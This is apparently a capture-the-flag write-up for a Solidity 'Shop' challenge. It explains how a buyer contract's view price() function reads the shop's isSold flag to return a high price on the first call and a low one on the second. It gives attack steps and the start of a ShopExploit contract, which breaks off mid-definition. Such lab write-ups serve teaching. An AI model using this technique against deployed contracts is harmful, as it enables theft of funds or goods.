 ## Solution

### The Attack Vector

Our attack strategy is to implement a Buyer contract with a clever `price()` function:

1. Deploy a contract that implements `IBuyer`
2. Implement `price()` as a `view` function that reads Shop's `isSold` state
3. First call (when `isSold` is false): return >= 100 to pass the check
4. Second call (when `isSold` is true): return < 100 to buy cheap
5. Call Shop's `buy()` function
6. Successfully purchase the item for less than asking price!

### View vs Pure Functions

Understanding function modifiers in Solidity:

```solidity
// Pure: Cannot read or modify state
function pureFn() public pure returns (uint256) {
    return 42; // Can only use literals and parameters
}

// View: Can read state but not modify it
function viewFn() public view returns (uint256) {
    return someStateVariable; // Can read contract state
    // return OtherContract(addr).getValue(); // Can read external state too!
}

// Non-view/non-pure: Can read and modify state
function modifyingFn() public {
    someStateVariable = 42; // Can modify state
}
```

**Key Insight**: View functions can call other contracts and read their state without modifying anything!

### Implementation Details

The solution contract, `ShopExploit`, implements a stateful price function:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IShop {
    function price() external view returns (uint256);
    function isSold() external view returns (bool);
    function buy() external;
}

contract ShopExploit {
    address public shop;
    address public owner;

    constructor(address _shop) {
        shop = _shop;
        owner = msg.sender;
    }

    /**
     * @dev Implements the IBuyer interface price() function
     * Returns different values depending on whether the item is sold or not
     */
```